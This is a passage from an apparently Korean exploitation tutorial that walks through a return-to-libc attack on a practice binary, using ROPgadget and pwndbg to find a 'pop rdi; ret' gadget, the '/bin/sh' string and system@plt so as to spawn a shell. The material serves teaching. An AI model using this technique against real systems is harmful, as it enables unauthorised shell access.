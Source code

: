 #### 2) 리턴 가젯 찾기(ROPgadget 이용)

설치법
```
$ python3 -m pip install ROPgadget --user
```

--re 옵션을 사용하면 정규표현식으로 가젯을 필터링할 수 있다.
일반적으로 바이너리에 포함된 가젯의 수가 매우 많으므로 필터링하여 가젯을 찾는 것을 추천.
```
$ ROPgadget --binary ./rtl --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret
```

#### 3) 익스플로잇

다음과 같이 가젯을 구성하고, 실행하면 system("/bin/sh")를 실행할 수 있다.
```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

"/bin/sh"의 주소
```
pwndbg> search /bin/sh
rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
libc-2.27.so    0x7ff36c1aa0fa 0x68732f6e69622f /* '/bin/sh' */
```

system 함수의 PLT 주소
```
pwndbg> plt
0x4005b0: puts@plt
0x4005c0: __stack_chk_fail@plt
0x4005d0: system@plt
0x4005e0: printf@plt
0x4005f0: read@plt
0x400600: setvbuf@plt
```

```
pwndbg> info func @plt
All functions matching regular expression "@plt":

Non-debugging symbols:
0x00000000004005b0  puts@plt
0x00000000004005c0  __stack_chk_fail@plt
0x00000000004005d0  system@plt
0x00000000004005e0  printf@plt
0x00000000004005f0  read@plt
0x0000000000400600  setvbuf@plt
```
